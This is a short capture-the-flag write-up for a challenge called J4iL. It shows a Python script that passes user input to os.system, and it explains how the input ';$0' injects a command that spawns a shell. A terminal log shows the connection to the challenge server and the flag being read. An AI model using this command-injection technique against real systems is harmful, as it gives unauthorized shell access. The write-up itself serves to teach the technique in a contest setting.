

# J4iL
## Write up

we were given this script

```py
import os
try:
    a = input('a = ')[0] 
    b = input('b = ')[0]
    c = str(float(input('c = ')))[0]
    assert all([len(i)>0 for i in [a,b,c]])
    
    os.system("echo you cant break me hehe ... " + a+b+c)
except:
    print('No No No, you can\'t do that!')    
    
```

the program takes 2 charecters and a number and pass them to os.system 

```py
os.system("echo you cant break me hehe ... " + a+b+c)
```
so the solution is to inject a something so when it get excuted we get the shell

so the solution was:

we can use the dollar sign **$** to call any env variable 
but the one interesting env variable that we need is **0** which represent the shell we are using
>for ex : bash, sh or zsh 


so the first charecter must be **;** to end the first 
the second charecter must be **$** to select an env variable
the third charecter must be **0** to select the env variable 0 which represents the shell 

so the command excuted will be 

```py
os.system("echo you cant break me hehe ... " + ";$0")
```

so it will call bash for us and we get a shell
```
┌──(fodhil㉿F0DH1L)-[~/ctf/hackINI2K24_writeups/misc/J4iL]
└─$ ncat -v --ssl J4iL.hackini24.shellmates.club 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: SSL connection to 35.198.143.192:443.
Ncat: SHA-1 fingerprint: 1174 7CA5 B188 6BAD 4726 2972 BE2F 6433 71B4 56D0
a = ;
b = $
c = 0
you cant break me hehe ...
ls
flag.txt
script.py
cat flag.txt
shellmates{e5C4pe_fR0M_py7h0n_70_$h}history

```

